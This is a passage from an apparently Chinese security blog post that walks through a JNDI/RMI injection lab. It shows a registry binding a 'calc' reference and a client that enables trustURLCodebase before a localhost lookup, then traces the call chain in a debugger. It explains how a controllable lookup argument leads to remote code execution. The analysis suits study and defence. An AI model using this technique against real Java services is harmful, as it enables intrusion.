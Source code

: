 ```java
        ReferenceWrapper calc = new ReferenceWrapper(reference);
        registry.bind("calc",calc);
    }
}

```

编写客户端代码

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class clinet {
    public static void main(String[] args) throws NamingException {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        InitialContext context = new InitialContext();
        context.lookup("rmi://127.0.0.1:1099/calc");
    }
}

```

如果客户端lookup方法参数可控的话，命令就可以执行成功，可以被RCE

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211216103047.png)

### 分析

在此处打上断点进行调试

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211216172905.png)

前几步是从Server端解析传入的URL，到 这一步 RegistryContexr#lookup的方法,

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211216170918.png)

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211216170835.png)

我们可以看到`this.registry`仍然是`RegistryImpl_Stub`，执行`lookup`方法获取的是一个`ReferenceWrapper_Stub`对象，

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211217124236.png)

在`RegistryContext#decodeObject`方法中会根据这个ReferenceWrapper\_Stub对象获取Reference对象

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211217124528.png)

跟进getReference方法,发现调用了UnicastRef#invoke ⽅法

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211217125350.png)

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218210218.png)
